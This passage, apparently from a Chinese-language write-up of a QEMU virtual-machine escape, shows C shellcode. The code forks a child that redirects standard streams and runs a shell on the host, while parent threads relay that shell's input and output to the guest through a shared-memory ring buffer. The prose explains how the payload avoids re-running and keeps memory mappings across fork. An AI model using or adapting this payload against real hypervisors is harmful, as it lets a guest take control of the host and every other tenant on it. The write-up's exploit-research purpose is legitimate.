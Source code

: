 ```c
	err = shared_data->got.malloc(sizeof(struct brwpipe));

	in->got = &shared_data->got;
	out->got = &shared_data->got;
	err->got = &shared_data->got;

	in->fd = in_fds[1];
	out->fd = out_fds[0];
	err->fd = err_fds[0];

	in->ring = &shared_data->shared_io.in;
	out->ring = &shared_data->shared_io.out;
	err->ring = &shared_data->shared_io.err;

	if (shared_data->got.fork() == 0) {
		shared_data->got.close(in_fds[1]);
		shared_data->got.close(out_fds[0]);
		shared_data->got.close(err_fds[0]);
		shared_data->got.dup2(in_fds[0], 0);
		shared_data->got.dup2(out_fds[1], 1);
		shared_data->got.dup2(err_fds[1], 2);
		shared_data->got.execv(shared_data->shell, args);
	}
	else {
		shared_data->got.close(in_fds[0]);
		shared_data->got.close(out_fds[1]);
		shared_data->got.close(err_fds[1]);

		shared_data->got.pthread_create(&t_in, NULL,
		                                shared_data->got.pipe_r2fd, in);
		shared_data->got.pthread_create(&t_out, NULL,
		                                shared_data->got.pipe_fd2r, out);
		shared_data->got.pthread_create(&t_err, NULL,
		                                shared_data->got.pipe_fd2r, err);

		shared_data->done = 1;
	}
}
```

shellcode 首先检查 `shared_data->done` 标志避免多次运行 shellcode（记住把控制权交给 shellcode 的 `qemu_set_irq used` 被 QEMU 代码调用多次）。

shellcode 调用 `madvise()`，`shared_data->addr` 指向物理内存。取消 MADV_DONTFORK 标志是必要的，可以在 `fork()`调用之间保留内存映射。

shellcode 创建一个子进程，用于启动一个 shell（`/bin/sh`）。母进程（parent process）启动多个线程去使用共享内存区域，从客户机传递 shell 到被攻击的主机，并把命令的结果写会客户机上。母进程和子进程的通信由管道实现。

如下所示，共享内存区域由一个可被 `sm_read()` 和 `sm_write()` 原语访问的环形缓冲区构成：

```c
struct shared_ring_buf {
	volatile bool lock;
	bool          empty;
	uint8_t       head;
	uint8_t       tail;
	uint8_t       buf[SHARED_BUFFER_SIZE];
};

static inline
__attribute__((always_inline))
ssize_t sm_read(struct GOT *got, struct shared_ring_buf *ring,
                char *out, ssize_t len)
{
	ssize_t read = 0, available = 0;
```